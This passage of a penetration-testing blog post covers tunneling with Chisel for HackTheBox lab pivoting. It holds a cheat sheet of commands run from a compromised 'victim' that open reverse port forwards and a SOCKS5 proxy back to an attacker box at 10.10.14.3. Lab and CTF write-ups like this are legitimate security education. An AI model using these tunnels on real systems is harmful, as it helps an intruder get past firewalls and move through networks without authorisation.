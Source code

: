 # Tunneling with Chisel and SSF

[hackthebox](/tags#hackthebox ) [tunnel](/tags#tunnel ) [chisel](/tags#chisel
) [ssf](/tags#ssf ) [htb-reddish](/tags#htb-reddish )  
  
Aug 10, 2020

Tunneling with Chisel and SSF

![](https://0xdfimages.gitlab.io/img/pipes-cover.png)

[Update 2020-08-10] Chisel now has a built in SOCKS proxy! I also added a
cheat sheet since I reference this post too often. [Original] Having just
[written up HTB Reddish](/2019/01/26/htb-reddish.html), pivoting without SSH
was at the top of my mind, and I’ve since learned of two programs that enable
pivots, Chisel and Secure Socket Funneling (SSF). I learned about Chisel from
Ippsec, and you can see [his using it to solve Reddish in his
video](https://www.youtube.com/watch?v=Yp4oxoQIBAM&t=1469s). I wanted to play
with it, and figured I’d document what I learned here. I learned about SSF
from another HTB user,
[jkr](https://www.hackthebox.eu/home/users/profile/77141), who not only
introduced me to SSF, but pulled together the examples in this post.

## Chisel

### TD;DR Cheat Sheet

Typical use. Examples assume Kali or other attack box is 10.10.14.3, client is
running from 10.10.10.10.

Start server listening on 8000:

`./chisel server -p 8000 --reverse`

From victim:

Command | Notes  
---|---  
`chisel client 10.10.14.3:8000 R:80:127.0.0.1:80` | Listen on Kali 80, forward to localhost port 80 on client  
`chisel client 10.10.14.3:8000 R:4444:10.10.10.240:80` | Listen on Kali 4444, forward to 10.10.10.240 port 80  
`chisel client 10.10.14.3:8000 R:socks` | Create SOCKS5 listener on 1080 on Kali, proxy through client  
  
### Background

Chisel’s author describes it as:

> Chisel is a fast TCP tunnel, transported over HTTP, secured via SSH. Single
> executable including both client and server. Written in Go (golang). Chisel
> is mainly useful for passing through firewalls, though it can also be used
> to provide a secure endpoint into your network. Chisel is very similar to
> crowbar though achieves much higher performance.
